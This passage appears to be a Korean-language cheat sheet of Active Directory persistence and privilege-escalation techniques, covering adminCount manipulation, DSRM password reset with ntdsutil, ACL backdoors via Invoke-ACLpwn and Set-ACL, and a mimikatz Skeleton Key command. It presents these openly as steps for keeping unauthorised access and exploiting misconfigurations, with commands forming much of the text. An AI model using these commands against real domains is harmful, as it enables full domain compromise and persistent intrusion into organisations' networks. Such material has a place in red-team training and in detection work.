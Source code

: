2. 변경 사항이 전파되도록 상위 권한을 유지합니다.

```js
Set-ADUser -Identity <사용자이름> -Replace @{adminCount=1}
```

<div class="content-ad"></div>

# DSRM 자격 증명

- 도메인 컨트롤러에서 DSRM 자격 증명을 검색합니다.

```js
ntdsutil "set dsrm password" "reset password on server <서버명>" "quit"
```

2. 이 자격 증명을 사용하여 디렉터리 서비스 복원 모드(Directory Services Restore Mode)에서 DC에 액세스합니다.

<div class="content-ad"></div>

# ACL 지속성

- 접근을 유지하기 위해 ACL을 수정하세요.

```js
Invoke - ACLpwn - Domain < 도메인 > -Principal < 사용자 > -AddFullControl;
```

2. 변경 내용이 삭제되지 않도록 보호하여 지속성을 보장하세요.

<div class="content-ad"></div>

# 보안 기술자

- 잘못된 설정을 위한 보안 기술자 분석

```js
Get-ACL -Path "AD:<경로>"
```

2. 특권 상승을 위해 잘못된 설정을 이용하세요.

<div class="content-ad"></div>

```js
Set-ACL -Path "AD:<경로>" -ACLObject $acl
```

# 스켈레톤 키

- 도메인 컨트롤러에 스켈레톤 키를 배포합니다.

```js
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"
```

<div class="content-ad"></div>
